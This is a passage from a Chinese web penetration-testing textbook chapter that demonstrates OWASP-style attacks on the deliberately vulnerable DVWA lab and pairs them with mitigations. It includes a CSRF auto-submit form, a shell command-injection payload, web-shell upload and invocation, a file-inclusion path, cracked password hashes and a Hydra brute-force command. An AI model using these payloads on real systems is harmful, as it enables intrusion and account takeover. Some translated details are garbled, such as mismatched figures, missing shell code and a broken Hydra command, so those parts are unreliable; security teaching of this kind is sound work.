

## JAVA SVN 仓库暴露

DVWA 还暴露了一个 SVN 仓库：



## /.svn 目录索引

| 名称 | 最后修改时间 | 大小 | 描述 |
| --- | --- | --- | --- |
| 上级目录 | | | |
| all-wcprops | 2010-09-07 22:47 | 1.4K | |
| entries | 2010-09-07 22:47 | 2.7K | |
| prop-base/ | 2010-09-07 22:47 | | |
| props/ | 2010-08-24 20:42 | | |
| text-base/ | 2010-09-07 22:47 | | |
| tmp/ | 2010-09-07 22:47 | | |

Apache/2.2.14 (Unix) DAV/2 mod_ssl/2.2.14 OpenSSL/0.9.8l PHP/5.3.1 mod_apache2-2009/

## 图 4.30：DVWA SVN 仓库暴露

攻击者可以通过请求流行的版本控制工具 Subversion 创建的攻击者元数据目录来提取敏感信息。因此，Web 服务器应该配置为不暴露任何 SVN 仓库。

## DVWA Apache 服务器状态泄露

DVWA 的配置不当导致它泄露了 Apache 服务器状态文件，这会泄露大量的服务器配置信息：



## 图 4.31：Apache 服务器状态泄露

## DVWA 目录列漏洞

目录列为攻击者提供了目录内的完整索引。目录列被不当暴露，向攻击者产生了敏感信息。`dirsearch` 工具显示了以下目录：

- `/dvwa`
- `/dvwa/css`
- `/dvwa/images`
- `/dvwa/includes`
- `/dvwa/includes`
- `/dvwa/js`
- `/dvwa/vulnerabilities`

我们可以通过访问相应的 URL 轻松验证这一点：

## dvwa/includes 索引

| 名称 | 最后修改时间 | 大小 |
| --- | --- | --- |
| 上级目录 | | |
| DBMS.php | 2010-08-24 20:42 | 2.4K |
| MySQL.php | 2010-08-24 20:42 | 2.7K |
| PGSQL.php | 2010-08-24 20:42 | 3.4K |

Apache/2.2.14 (Unix) DAV/2 mod_ssl/2.2.14 OpenSSL/0.9.8l PHP/5.3.1 mod_apache2-2009/

## 图 4.32：DVWA 目录列

## 服务端请求伪造 (SSRF)

在**服务端请求伪造 (SSRF)** 中，攻击者可以滥用该功能读取内部资源。它允许攻击者向其选择的服务发送请求。

### SSRF 示例

在常见的 SSRF 攻击中，攻击者可能触发服务器访问内部服务。为了理解 SSRF，请看图 4.33 所示的示例：



图 4.33：DVWA SSRF

当用户发送请求时，我们看到了一个 HTTP 请求：

```
http://192.168.011/vulnerabilities/csrf/?url=http://10.0.0.1
```

如果服务器受到 SSRF 攻击，它将盲目地调用内部接口。

## SSRF 缓解措施

在应用程序和网络层都有多种保护措施。为了实施深度防御，两层都将加固。首先想到的防护水平是输入验证。可以使用正则表达式确保输入从安全角度是有效的。处理 IP 时，我们需要确保该 IP 地址属于内部。

## 服务端请求伪造 (SSRF) 与跨站请求伪造 (CSRF)

与 SSRF 不同，CSRF 攻击的目标是用户。让我们结合 DVWA 来理解 CSRF。DVWA 管理员可以使用默认用户名 `admin` 和密码 `password` 登录 DVWA 应用程序。DVWA 有一个漏洞 CSRF 修改密码功能：

| 说明 | 修改你的管理员密码： |
|---|---|
| 设置 | |
| 暴力破解 | 新密码： |
| 命令执行 | 确认新密码： |
| C SSRF | |
| 文件包含 | 更多信息 |
| SQL 注入（盲注） | http://www.owasp.org/php/index/Site |


当我们提交表单并使用 Burp 拦截 HTTP 请求时，我们看到了发送到服务器的 HTTP 请求，如图 4.35 所示：



# 图 4.36: DVWA CSRF 示例

现在，为了能够成功更改管理员用户的密码，黑客应该能够在管理员登录其账户时，从管理员的浏览器触发更改密码请求。黑客可以使用 CSRF（跨站请求伪造）攻击来实现这一点。记住，CSRF 攻击总是需要某种社会工程学，这意味着黑客将以某种方式说服受害者点击链接或打开网页：



### 图 4.37: CSRF 场景


回到我们的 DVWA 。在这里，管理员用户登录了他们的账户。需要注意的一点是：管理员用户的浏览器具有有效的会话 cookie。因此，管理员浏览器发送到 DVWA 应用程序的所有请求，有效的会话 cookie 都会随 HTTP 请求发送到 DVWA Web 服务器。

现在，黑客将以下 URL 发送给管理员，管理员在登录管理员账户的同一个浏览器中打开该链接：

```
http://192.168.0.111/vulnerabilities/csrf/?password_new=mynewpassword&password_conf=mynewpassword&Change=Change;
```

当管理员点击该 URL 时，他们将无意中向 DVWA Web 服务器发送更改密码请求，服务器会将账户密码更改为 `mynewpassword`。一旦攻击执行，攻击者可以使用新更改的密码登录管理员账户。然而，管理员用户将无法使用旧密码登录。

在这个示例中，CSRF 攻击是通过 GET 方法执行的，因为应用程序通过 URL 接收请求。然而，需要时，CSRF 攻击也可以通过 POST 请求执行；这需要构建一个 HTML 表单，参见[图 4:38]。

```
<!DOCTYPE html>
<html>
<body onload="document.getElementById('myForm').submit()">
<form id="myForm" method="POST" action="http://192.168.0.111/vulnerabilities/csrf/">
<input type="hidden" name="password">
<input type="hidden" name="password2">
</form>
</body>
</html>
```

*图 4:38: CSRF 利用 HTML 模板*

在这里，我们创建了一个简单的 HTML 表单，当用户在 浏览器中打开它时会自动提交。攻击者必须在 HTML 表单中设置密码，然后将此 HTML 文件托管在某处并将链接发送给受害者。当受害者打开页面时，CSRF 攻击将非常容易执行，正如[图 4:39]所示：生成 CSRF 攻击文件。

| 操作 | 详情 |
| :--- | :--- |
| 发送到 Spider | *+1 |
| 执行主动扫描 | 80uagv92dr36; acopen |
| 发送到 Intruder | |
| 发送到 Receiver | *+R |
| 发送到 Sequencer | |
| 发送到 Comparator | date |
| 发送到 Decoder | |
| 在浏览器中请求 | |
| 交互工具 | 查找引用 |
| 更改请求方法 | 发现内容 |
| 更改主体编码 | 计划任务 |
| 复制 URL | |
| 复制为 curl 命令 | 生成 CSRF PoC |
| 复制到文件 | |
| 从文件粘贴 | |

图 4.39: 使用 Burp Suite 生成 CSRF 攻击

## CSRF 的缓解

作为一种 CSRF 预防机制，客户端应用程序代码会在向服务器发送的每个 POST 请求发送一个随机令牌（`token`）。在服务器端，它会验证该令牌。令牌应该在服务器端生成，并且应该足够强大而无法被猜测。基于令牌的 CSRF 防御内置在许多 Web 框架中。强烈建议在尝试构建自定义令牌生成器之前，研究你正在使用的框架是否有默认实现 CSRF 保护的选项。

## 不安全设计

不安全设计是一个宽泛的类别，代表各种表现为设计缺失或效率低下的弱点。不安全设计与不安全实现之间存在区别。我们将设计缺陷和执行缺陷分开是有原因的：它们有不同的来源和修复方法。安全的设计仍然可能由于可能被利用的新漏洞而产生实现问题。不安全设计无法通过理想的实现来解决，它需要从未创建的安全控制措施来防止攻击。导致不安全设计的因素中，包括对正在开发的软件或系统缺乏公司风险分析，从而未能确定需要何种程度的安全设计。

## 命令执行

DVWA 中的一个不安全设计示例是命令执行。DVWA 有一个漏洞功能，允许任何用户 ping IP 地址：

### 漏洞：命令执行

| 菜单 |
| :--- |
| Home |
| 指令 |
| 设置 |
| 暴力破解 |
| 命令执行 |
| CSRF |
| 文件包含 |
| SQL 注入 |
| SQL 注入 (盲注) |
| 上传 |

如果我们输入任何 IP 地址，它会 ping 服务器并显示输出，如图 4.40 所示：

```
PING 192.168.0.1 (192.168.0.1) 56(84) bytes of data.
64 bytes from 192.168.0.1: icmp_seq=1 time=0.485 ms
64 bytes from 192.168.0.1: icmp_seq=2 time=0.490 ms
64 bytes from 192.168.0.1: icmp_seq=3 time=0.627 ms
---
192.168.0.1 statistics
3 packets transmitted, 3 received, 0% packet loss, time=2011ms
rtt min/avg/mdev = 0.485/0.534/0.627 ms
```

图 4.41: DVWA 命令执行

从该功能的设计可以推推出后端将我们的 IP 传递给 `ping` 工具并返回输出。现在由于它将我们提供的原始输入传递给后端 shell，让我们看看在 IP 之间追加一个额外的命令会发生什么。在这个示例中，我们在 IP 后面用分号分隔并追加了 `ifconfig`：

```
192.168.0.1; ifconfig;
```

图 4.42: 注入命令中的 DVWA 命令执行

太棒了！DVWA 应用程序给了我们 `ping` 工具的输出，它还在系统上执行了 `ifconfig` 命令并给了我们输出，如图 4.43 所示：

```
PING 192.168.0.1 (192.168.0.1) 56(84) bytes of data.
64 bytes from 192.168.0.1: icmp_seq=1 time=0.485 ms
64 bytes from 192.168.0.1: icmp_seq=2 time=0.490 ms
64 bytes from 192.168.0.1: icmp_seq=3 time=0.627 ms
---
192.168.0.1 statistics
3 packets transmitted, 3 received, 0% packet loss, time=2011ms
rtt min/avg/mdev = 0.485/0.534/0.627 ms
```

图 4.43: 注入命令中的 DVWA 命令执行输出

该问题的严重性可能非常高；攻击者可以通过在系统上执行恶意命令对服务器进行任何操作。

# 不限制文件上传

文件上传漏洞是 Web 应用程序的一个重大问题。在许多 Web 服务器中，此漏洞允许攻击者上传隐藏恶意代码的文件，然后这些代码可以在服务器上执行。攻击者可能在网站上放置一个钓鱼网页或破坏网站。为了理解不限制文件上传问题，我们将查看 DVWA 文件上传功能：

| 漏洞：文件上传 |
| :--- |
| 选择要上传的图片：<br>浏览... 未选择文件<br><br> 上传 |

图 4.44: DVWA 文件上传漏洞

DVWA 的此功能允许用户将图像文件上传到 Web 服务器。当我们尝试上传图片以外的文件时，发生了有趣的事情。我们创建一个里面写有测试字符串的文件并尝试上传它：

| 漏洞：文件上传 |
| :--- |
| 选择要上传的图片：<br>浏览... 未选择文件<br><br> 上传 <br> ../hackable/uploads/test.txt 上传成功！ |

图 4.45: DVWA 文件上传成功消息

我们可以看到文件已成功上传（图 4.45），并且可以直接从 Web 浏览器访问该文件（图 4.46）：



**图 4.46:** DVWA 文件上传 – 访问已上传的文件

现在，让我们尝试一些更糟糕的操作。与其上传无害的文本，不如尝试上传一个 PHP 文件。你必须记住我们正在尝试上传 PHP 文件，因为我们已经发现服务器使用了 PHP。要上传带有以下 PHP 代码 `init:` 的 PHP 文件：

这段代码被称为**最小化 PHP Web Shell (PHP web shell)**。Web shell 是一种类似于 shell 的接口，允许远程访问 Web 服务器，通常用于网络攻击：

| 选择一个要上传的图片： |
| :--- |
| [浏览...] shell.php |
| [上传] |

**图 4.47:** DVWA php shell 文件上传尝试

一旦 `shell.php` 文件被上传到服务器，我们应该能够通过以下 URL 访问文件：


`/hackable/uploads/shell.php`

现在，如果我们向该文件传递以下参数，我们应该能够在系统上执行任意命令：

`http://192.168.0.111/hackable/uploads/shell.php?cmd=ifconfig`



图 4.4: DVWA web shell 上

在图 4.48 中，你可以看到我们在服务器上执行了 `config` 命令，我们上传的 shell 为我们提供了命令的输出。PHP shell 是非常强大的，在大多数情况下，如果攻击者能够向服务器上传 PHP shell，他们就可以创建一个完整的 Web 服务器。

## 不安全的直接对象引用 (IDOR)

不安全的直接对象引用 (`IDOR`) 是当应用程序使用用户提供的输入来访问对象时的一种访问控制漏洞。考虑一个网站，使用以下 URL 通过从后端数据库检索信息来访问客户账户页面：

`https://insecure-website.com/customer_account?customer_number=132355`

在接后的章节中，客户编号被用作查询中的文档索引，如果没有其他控制，攻击者只需更改 `customer_number` 值，绕过访问控制即可查看其他消费者的记录。这是一个导致水平权限提升的 `IDOR` 漏洞实例。

攻击者可能通过在绕过访问控制的同时更改具有额外权限的用户，来实现水平和纵向的权限提升。其他可能性包括在攻击者进入用户账户 Web 页面后，操纵密码泄露或修改参数。当专用资源位于服务器端文件系统中的静态文件中时，经常会产生 `IDOR` 漏洞。例如，网站可以使用递增的文件名将个人资料图像保存到磁盘，并允许用户通过检查类似下面的 URL 来获取这些内容：

```
https://insecure-website.com/static/image34.png
https://insecure-website.com/static/image35.png
https://insecure-website.com/static/image36.png
https://insecure-website.com/static/image37.png
```

## 不安全文件包含 (LFI 和 RFI)

远程文件包含 (`RFI`) 和本地文件包含 (`LFI`) 是经常出现在编写不当的应用程序中的漏洞。`LFI` 漏洞允许攻击者读取（有时是执行）受害者机器上的文件。如果 Web 服务器配置错误并以高权限运行，这可能是非常危险的，攻击者可能会获得敏感信息。如果攻击者可以通过其他手段在 Web 服务器上放置代码，他们可能就能执行任意命令：

```
1. /***
2. * 从 GET 输入获取文件名。
3. * 示例 - http://example.com/?file=filename.php
4. /*
5. $file_name = $_GET['file'];
6.
7. include('include_directory/' . $file_name);
```

前面的 PHP 示例显示应用程序通过 GET 参数 `file`（第 5 行）从用户处获取文件名，并将其存储在名为 `$file_name` 的变量中。随后，变量 `$file_name` 被传递给 PHP `include` 函数（第 7 行）。`include` 函数将动态包含用户传递的文件名。此类设计错误可能允许攻击者在服务器上执行任意代码。在下面的示例中，攻击者的意图是欺骗应用程序执行 PHP 脚本，例如：

`https://website.com/?file=../uploads/shell.php`

一旦用户运行该应用程序，攻击者上传的文件将被包含并执行。这将允许攻击者运行他们想要的任何服务器端代码 `RFI`。

`RFI` 漏洞更容易利用但并不常见。攻击者无需访问本地机器上的文件，而是可以执行托管在他们自己机器上的代码。

## 不安全设计的缓解

与我们之前讨论的其他问题不同，防止不安全设计问题并不容易。然而，在消除 Web 应用程序不安全设计问题时，可以考虑以下几点：

- 对身份验证、访问控制、组织相关的业务逻辑以及关键计算使用威胁建模。威胁模型是影响应用程序安全的所有信息的结构化表示。本质上，它是从安全角度对应用程序及其环境视图。
- 建立并使用安全开发生命周期。
- 建立并使用安全设计模式。
- 编写单元测试和集成测试以验证所有重要流程都是安全的。
- 在每一层引入安全性。

## 有漏洞且过时的组件

几乎所有现代应用程序都使用开源包，关于这些的信息广泛可用。发现你正在使用哪些包的攻击者可以使用现有的利用程序。

在大型组织中发现并修复过时的系统通常通过定义良好的漏洞管理计划来处理。漏洞管理是确定、评估、处理和报告运行系统及其软件中安全漏洞的过程。将其与其他安全策略结合使用，对于公司优先考虑风险和最小化攻击面至关重要。

## 加密失败

管理数据的简单模型是数据处于两种状态之一：

- 传输中的数据
- 静态数据

你可以使用不同的控制措施对这两种状态下的数据进行加密：

- 首先要识别传输中数据和静态数据的防御需求。例如，密码、银行卡号、个人信息和商业秘密需要额外的保护，特别是当这些数据属于隐私法（例如欧盟的《通用数据保护条例》 `GDPR`）或法规（例如金融数据保护的 `PCI` 数据安全标准 `PCI DSS`）时。
- 对于传输中的数据，你需要确保在与用户发送和接收数据时使用的是传输层安全协议 (`TLS`)。你还需要检查在系统的所有元素之间都使用了 `TLS`，而不仅仅是应用程序的公共端。

## DVWA 不安全传输

`DVWA` 默认不使用 `HTTPS`（或 `SSL`）进行安全通信。应用程序配置应确保所有受访问的页面都使用 `SSL`。如果应用程序利用 `SSL` 与客户端浏览器进行机密通信，应用程序配置应使其在没有 `SSL` 的情况下无法查看任何控制的 Web 页面。然而，应用程序配置在包含敏感数据的页面未使用 `SSL` 并不是常见问题。

## DVWA 使用的较弱哈希机制

当我们通过 `SQLi` 导出 `DVWA` 数据库（图 4.50）时，我们看到应用程序在数据库中保存密码哈希，并且看到密码是使用 `MD5` 进行哈希的。`MD5` 哈希算法现在不被认为是最安全的。最常用的哈希算法是 `SHA-256`：

```
[23:46:17] 破解了哈希 7145... f992e6a2c830d7f2668c332b9d7 的密码 [***]
[23:47:09] 破解了 Charlie 的密码 [***] / 哈希 81d8079f5b0b4cade35de7c5e9b80d7
database: dvwa
(5 条目)
| user_id | user | avatar |
| :--- | :--- | :--- |
| admin | dvwa/users/admin.jpg | f94c35a7650bd127d60b2cf99 (password) | admin |
| peter | dvwa/users/peter.jpg | 81d8079f5b0b4cade35de7c5e9b80d7 (charley) | peter |
| 1337 | dvwa/users/1337.jpg | 81d8079f5b0b4cade35de7c5e9b80d7 | 1337 Hack |
| me | dvwa/users/me.jpg | f94c35a7650bd127d60b2cf99 (password) | me |
| smithy | dvwa/users/smithy.jpg | f94c35a7650bd127d60b2cf99 (password) | Smith Bob |
```

## 识别与验证失败

确认用户的身份、身份验证和会话管理对于防止与身份相关的攻击至关重要。如果应用程序执行了以下任何操作，可能存在身份验证方面的漏洞：

- 允许暴力破解或类似的自动化攻击
- 允许使用默认、弱密码或众为人知的密码，例如 `password` 或 `admin/admin`
- 在 URL 中暴露会话标识符
- 允许自动化攻击，如凭据填充（`credential stuffing`），此时攻击者拥有一份有效的用户名和密码列表
- 使用弱或不充分的凭据恢复和忘记密码程序，例如无法确保的基于知识的响应
- 缺失或多因素身份验证无效
- 在有效登录后重用会话标识符
- 使用明文、加密或弱哈希的密码数据存储
- 未正确使会话 ID 失效

## 对 DVWA 的暴力破解攻击

暴力破解是身份验证失败的一个示例。`DVWA` 的默认 `admin` 账户密码非常虚弱，因此我们可以轻松地进行暴力破解攻击。我们将看到如何使用 Kali Linux 中自带的 `Hydra` 工具来执行暴力破解攻击。

为了能够在服务器上运行暴力破解，我们首先应该找到负责登录的 HTTP 请求。`DVWA` 的登录请求如图 4.51 所示：


```
1 POST /login.php HTTP/1.1
2 Host: 192.168.0.1
3 User: Mozilla/5.0 (Windows NT 10.0; Win64; rv:94.0) Gecko/2010101 Firefox/94.0
4 Accept: text/html,application/xhtml+xml,application/xml;q=0.9, image/avif,image/webp,*;q=0.8
5 Accept-Language: en,q=0.5
6 Accept-Encoding: gzip, deflate
7 Content-Type: application/x-www-form-urlencoded
8 Content-Length: 58
9 Origin: http://192.168.0.1/login.php
10 Connection: close
11 Referer: http://192.168.0.1/login.php
12 Cookie: PHPSESSID=8usjapqft1gn61tvnojpkqg24; security=low
14 Upgrade-Insecure-Requests: 1
15 username=admin&password=somepassword&Login=Login
```

图 4.51：DVWA 登录请求

使用 `Hydra` 进行暴力破解，我们需要以下内容：

- 请求方法
- 请求参数
- 处理身份验证的 URL
- 如果需要，则需要会话 cookie
- 用于暴力破解的用户名
- 密码列表
- 登录错误信息 - 用于 `Hydra` 理解何时何时失败或成功

我们应该从原始登录请求中找到这些信息：

- 在此情况下，请求方法为 `POST`
- 请求参数为 `username=fasdfsdaf&password=fdsafdaf&Login=Login`
- 处理身份验证的 URL 可以从 Burp 中收集：`Cookie: PHPSESSID=8usjapqft1gn61tvnojpkqg24; security=low`
- 用户名将是 `admin`
- 密码列表，可以使用 Kali Linux 中 `/usr/share/set/src/fasttrack/wordlist.txt` 中的文件
- 登录错误信息可以在失败的登录页面找到，在 DVWA 中为 `Login failed`。它将帮助 `Hydra` 检测登录何时成功，如图 4.52 所示：

| Username |
| :--- |
| fasdfdaf |
| Password |
| ******** |
| Login |
| Login failed |

**图 4.52：** DVWA 登录失败信息

然后，我们需要将所有这些信息喂给 `Hydra`。我们可以使用以下命令来实现这一点：

```
hydra 192.168.0.111 http-form-post /login.php?username=USER&password=PASS&Login=Login failed=Cookie: PHPSESSID=8usjapqft1gn61tvnojpkqg24; security=low
```

### 降低应用程序风险的控制措施

- 确保所有的登录、访问控制和服务器端输入验证失败都能记录，并带有充分的用户上下文，以识别可疑或具有破坏性的账户，并保留足够的时间以便进行事后取证评估。
- 确保生成的日志符合日志管理解决方案可以快速消耗的布局。
- 确保日志数据被妥善写入，以防止对日志或监控系统的注入或攻击。
- 确保高价值的交易/通信具有完整性控制的审计路径，以防止篡改或删除，例如使用仅追加的数据库表或类似机制。
- `DevSecOps` 团队必须建立高效的监控和告警机制，以便快速检测并响应可疑任务。

## API 简介

在理解什么是 Web API 之前，理解什么是应用程序接口（API）非常重要。在计算机编程中，API 是用于构建软件程序和应用程序的子程序定义、协议和工具的集合。换句话说，API 是一种接口，它有一组函数，允许编程人员访问应用程序、操作系统或其他服务的特定功能或数据。

Web API 名顾其名，是一种可以通过 HTTP 协议访问的 Web API。它是一种原则，而不是一种技术。我们可以利用不同的技术（如 `Java`、`.NET` 等）构建 Web API。例如，Twitter 的 `REST APIs` 提供了对查看和创建数据的程序化访问，通过此将 Twitter 的功能集成到我们的应用程序中。

## 使用 Burp Repeater 与 web API 交互

我们可以使用 Burp Repeater 标签向 Web API 服务器发送请求，就像测试任何其他 Web 应用程序一样。以以下 API 为例：

```
https://gorest.co.in/public/v1/users
```

如果我们在 浏览器中打开该 URL，我们可以看到响应；但当我们必须使用 `GET` 以外的方法（如 `POST` 和 `PUT`）时，它并不总是有效的：



图 4.54：从 浏览器访问 API

当我们在 Burp 中拦截请求时，我们可以获得将其发送到 repeater 的选项，如图 4.55 所示：

### 拦截 HTTP Webockets 选项

请求至 `https://google.co.in:443` [139.59.66.125]

```
GET /public/v1/users HTTP/1.1
Host: google.co.in
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64)
Accept: text/html,application/xhtml+xml,xml/*
Accept-Language: en-US,q=0.9
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?
If-None-Match: W/"04bcfeff735fdb9ba8afcb9dc53"
Cache-Control: max-age=0
Headers:
Connection: close
```

图 4.5：使用 Repeater

通过 Repeater 标签页，我们可以通过任何想要的方式与 API 交互，还可以调整参数（图 4.56）。这在对 API 进行渗透测试时非常有用：

```
GET /public/v1/users HTTP/1.1
Host: google.co.in
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,xml/*
Accept-Language: en-US,q=0.9
Accept-Encoding: gzip, deflate
Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?
If-None-Match: W/"04bcfeff735fdb9ba8afcb9dc53"
Cache-Control: max-age=0
Headers:
Connection: close
```

```json
{
  "pagination": {
    "total": 1553,
    "page": 1,
    "limit": 20,
    "link": {
  }
}
```



图 4.56：通过 Burp Repeater 进行 API 操作

## 最常见的 API 安全问题

随着微服务的突飞发展和快速开发应用的浪潮，API 正比以往任何时候都频繁地连接服务和移动数据。然而，随着越来越多的小型应用程序尝试相互交互，API（您自己的以及第三方的）安全性变得越来越具有挑战性。最核心的 API 安全威胁包括损坏的对象级别授权、用户和功能级授权、过度信息泄露、资源缺失、安全配置错误以及日志和监控不足。

### 注入

